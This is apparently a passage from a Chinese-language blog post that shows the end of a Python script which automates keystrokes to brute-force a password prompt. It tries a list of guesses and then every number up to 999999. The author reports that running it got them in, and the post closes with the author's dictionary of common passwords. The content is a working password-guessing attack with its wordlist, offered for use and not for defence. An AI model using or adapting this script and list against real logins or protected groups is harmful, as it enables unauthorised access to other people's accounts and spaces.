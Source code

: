 ```
        print(i)
        keyboard.type(i)
        keyboard.press(Key.enter)
        keyboard.release(Key.enter)

        for i in range(0,15):
            keyboard.press(Key.backspace)
            keyboard.release(Key.backspace)

    for i in range(999999):
        print(str(i))
        keyboard.type(str(i))
        keyboard.press(Key.enter)
        keyboard.release(Key.enter)

        for i in range(0,15):
            keyboard.press(Key.backspace)
            keyboard.release(Key.backspace)

if __name__ == '__main__':
    main() 
```

运行一下就直接加入成功了。

注：我使用的字典如下

```
123456789
a123456
123456
a123456789
1234567890
woaini1314
qq123456
abc123456
123456a
123456789a
147258369
zxcvbnm
987654321
12345678910
abc123
qq123456789
123456789.
7708801314520
woaini
5201314520
q123456
123456abc
1233211234567
123123123
123456.
0123456789
asd123456
aa123456
135792468
q123456789
abcd123456
12345678900
woaini520
woaini123
zxcvbnm123
1111111111111111
```
